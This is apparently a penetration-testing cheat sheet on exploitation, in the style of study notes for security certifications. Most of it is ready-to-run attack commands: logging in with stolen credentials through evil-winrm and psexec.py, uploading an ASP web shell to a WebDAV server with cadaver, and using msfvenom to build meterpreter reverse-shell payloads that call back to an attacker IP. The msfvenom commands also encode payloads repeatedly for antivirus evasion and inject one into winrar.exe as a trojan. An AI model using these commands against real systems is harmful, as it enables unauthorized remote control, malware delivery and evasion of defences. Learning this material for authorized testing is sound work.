 # Exploitation

**Table of Contents:**

Exploitation of any service can be done through:

- <a href='#N'>Nmap Exploit scripts.</a>
- <a href='#M'>MsfConsole Exploit Modules.</a>
- <a href='#I'>Exploits on the Internet</a>
- <a href='#S'>Stand-Alone tools</a>
    - <a href='#winrm'>WinRM</a>
    - <a href='#webdav'>WebDAV</a>
    - <a href='#smb'>SMB</a>
- <a href='#E'>Exploitation using MsfVenom Payloads</a>

<h1 id='N'>Nmap Exploit Scripts</h1>

[https://nmap.org/nsedoc/categories/exploit.html](https://nmap.org/nsedoc/categories/exploit.html)

You can check the exploit category of each script in your local Nmap Script Database.

```bash
cat /usr/share/nmap/scripts/script.db | grep -i exploit | cut -d ' ' -f 5
```

<h1 id='M'>Msfconsole Exploit Modules</h1>

```bash
msfconsole>  search type:exploit <serviceName/software>
```

<h1 id='I'> Exploits On the Internet</h1>

Never use an exploit from a suspicious site or place, it might be the malicious one that can take over your system rather than exploiting the vulnerable service.

- [https://www.exploit-db.com/](https://www.exploit-db.com/) : Exploit DB search filters are very useful for searching exploits.
- [https://www.rapid7.com/db/](https://www.rapid7.com/db/) : Rapid7 is very helpful for finding MSF modules.

Google can be the last resort but be careful using any exploit. Check the stars or authenticity of the GitHub repo in order to use it. Always check what the code does.

[https://packetstormsecurity.com/](https://packetstormsecurity.com/) is the best website to get updates about the latest vulnerabilities and exploits.

Searchsploit is the offline version of exploit-db that comes pre-packaged with Kali. /usr/share/exploitdb, everything stores in this directory.

```bash
searchploit      #to get the complete help to use it
searchsploit remote windows smb | grep -e 'EternalBlue'
searchsploit <searchQueries> -w    #to get the exploit-db links
searchsploit -m <EDB ID>     #to copy in $(pwd)
```

You should have an idea about fixing and compiling your code for the target.

If for some reason cross-compilation isn’t successful or you don’t wanna do that then check out the Offensive security GitHub repo for the pre-compiled binaries.

[https://github.com/offensive-security/exploitdb-bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits)

<h1 id='S'>Standalone tools</h1>

<h2 id='winrm'>Winrm</h2>

After getting creds from crackmapexec you can use evil-winrm to login to the computer.

```bash
evil-winrm.rb -u <user> -p <pass> -i <IP>                        #to get a shell
```

<h2 id='webdav'>WebDav</h2>

**davtest** tool is used for testing WebDAV servers in which filetypes can be uploaded and executed.

```bash
davtest -auth <user>:<pass> -url http://<IP>/<webdavpath>
```

**cadaver** tool is used for interacting with the WebDAV server through which we can upload our web shell to the server to get system access.

```bash
cadaver http://<IP>/<webdavpath>
dav> put /usr/share/webshells/asp/webshell.asp
```

<h2 id='smb'>SMB</h2>

After getting creds of SMB, you can use psexec.py to login to the computer

```bash
psexec.py [DOMAIN/]<USERNAME>[:PASSWORD]@<HOST> [command]
```

<h1 id='E'>Exploitation using MsfVenom Payloads</h1>

```bash
msfvenom   #to get the help
msfvenom --list payloads
# windows/x64/meterpreter/reverse_tcp is a staged payload
# windows/x64/meterpreter_reverse_tcp is a non-staged payload

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -f exe > payload.exe

msfvenom --list formats

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -f elf > payload.elf

msf> use multi/handler   #listening for reverse connection in order to send stage for the staged payload.
```

```bash
msfvenom --list encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -e x86/shikata_ga_nai -f exe > payload.exe
#we can specify the iterations of the encoding in order to maximize our chances of evasion
#-i options for the iterations -i 10 recommended by alexis ahmed 
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe -x winrar.exe > malicious_winrar.exe
# -k option will also maintain the actual functionality of the portable executable but -k will not work for each means injection can be failed.
# After exploiting target migrate to the stable process otherwise the current process will be closed by windows after some time due to hang
meterpreter> run post/windows/manage/migrate
```